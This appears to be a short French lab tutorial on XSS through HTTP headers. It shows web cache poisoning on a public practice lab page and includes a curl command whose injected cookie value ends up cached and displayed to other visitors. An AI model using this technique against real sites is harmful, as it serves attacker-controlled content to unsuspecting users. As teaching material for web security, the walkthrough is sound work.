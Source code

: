 XSS via http headers

![xss-cookie-source](https://user-images.githubusercontent.com/38082725/236705431-90baee9d-cebc-4f98-9189-60d7c92392b4.png)


A partir de votre navigateur, demandez la page https://brutelogic.com.br/lab/welcome.php

A partir d'un terminal linux, utlisez curl pour demander la page welcome.php :

![HIT](https://user-images.githubusercontent.com/38082725/236705956-567e642d-3d3c-47b6-b04b-9d5d57145ab4.png)

Noter comment la valeur de l'entête x-sucuri-cache passe,après 3 appels à curl, de "MISS" à "HIT" : le serveur de cache (CDN ou WAF) qui s'interpos entre le client et le serveur web a fini par cacher votre requête http qui correspond à l'url https://brutelogic.com.br/lab/welcome.php?x=titi

Pour empoisonner le cache et ainsi tromper les autres clients, injectons dans l'entête http une cookie ayant pour valeur insa:

curl --cookie "name=insa" https://brutelogic.com.br/lab/welcome.php?x=lolololo

Réponse du serveur :
<!DOCTYPE html>
<body>
<p>Welcome, insa!</p>
</body>
</html>

A partir du navigateur, demander le même URL : https://brutelogic.com.br/lab/welcome.php?x=lolololo
La navigateur affiche :
Welcome, insa!



